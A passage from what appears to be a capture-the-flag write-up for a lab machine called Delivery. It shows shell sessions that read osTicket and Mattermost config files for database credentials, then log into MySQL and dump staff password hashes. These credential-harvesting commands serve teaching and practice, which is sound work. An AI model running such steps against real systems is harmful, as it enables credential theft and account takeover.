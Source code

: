 osticket configuration file **leaked mysql credentials**:
```bash
maildeliverer@Delivery:/var/www/osticket$ cat ./upload/include/ost-config.php
...
# Encrypt/Decrypt secret key - randomly generated during installation.
define('SECRET_SALT','nP8uygzdkzXRLJzYUmdmLDEqDSq5bGk3');

#Default admin email. Used only on db connection issues and related alerts.
define('ADMIN_EMAIL','maildeliverer@delivery.htb');

# Database Options
# ---------------------------------------------------
# Mysql Login info
define('DBTYPE','mysql');
define('DBHOST','localhost');
define('DBNAME','osticket');
define('DBUSER','ost_user');
define('DBPASS','!H3l<redacted>');

# Table prefix
define('TABLE_PREFIX','ost_');
...
```

mattermost configuration file **leaked mysql credentials**:
```bash
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json | grep -i sql -C5
        "DesktopLatestVersion": "",
        "DesktopMinVersion": "",
        "IosLatestVersion": "",
        "IosMinVersion": ""
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_...........@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,

```

Logged within mysql using osticket leaked credentials and **extracted password hashes** for registered users:
```bash
maildeliverer@Delivery:/var/www/osticket$ mysql -u ost_user -p -D osticket
Enter password:
...
MariaDB [osticket]> select username,passwd,email,isadmin from ost_staff;
+---------------+--------------------------------------------------------------+----------------------------+---------+
| username      | passwd                                                       | email                      | isadmin |
+---------------+--------------------------------------------------------------+----------------------------+---------+
| maildeliverer | $2a$08$VlccTgoFaxEaGJ....................................... | maildeliverer@delivery.htb |       1 |
+---------------+--------------------------------------------------------------+----------------------------+---------+
1 row in set (0.000 sec)
...
```
